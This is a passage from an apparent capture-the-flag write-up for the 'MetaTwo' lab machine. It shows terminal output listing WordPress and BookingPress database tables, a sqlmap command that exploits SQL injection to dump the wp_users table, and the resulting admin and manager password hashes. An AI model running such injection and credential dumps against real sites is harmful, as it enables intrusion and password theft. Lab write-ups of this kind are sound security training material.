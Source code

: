 | wp_bookingpress_debug_payment_log    |
| wp_bookingpress_default_daysoff      |
| wp_bookingpress_default_workhours    |
| wp_bookingpress_entries              |
| wp_bookingpress_form_fields          |
| wp_bookingpress_notifications        |
| wp_bookingpress_payment_logs         |
| wp_bookingpress_services             |
| wp_bookingpress_servicesmeta         |
| wp_bookingpress_settings             |
| wp_commentmeta                       |
| wp_comments                          |
| wp_links                             |
| wp_options                           |
| wp_postmeta                          |
| wp_posts                             |
| wp_term_relationships                |
| wp_term_taxonomy                     |
| wp_termmeta                          |
| wp_terms                             |
| wp_usermeta                          |
| wp_users                             |
+--------------------------------------+

┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$  sqlmap -r requests.txt --dump -T wp_users -D blog -v 0
...
------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url             | user_pass                          | user_email            | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://metapress.htb | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. | admin@metapress.htb   | admin      | 0           | admin        | admin         | 2022-06-23 17:58:28 | <blank>             |
| 2  | <blank>              | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 | manager@metapress.htb | manager    | 0           | manager      | manager       | 2022-06-23 18:07:55 | <blank>             |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+


{% endhighlight %}
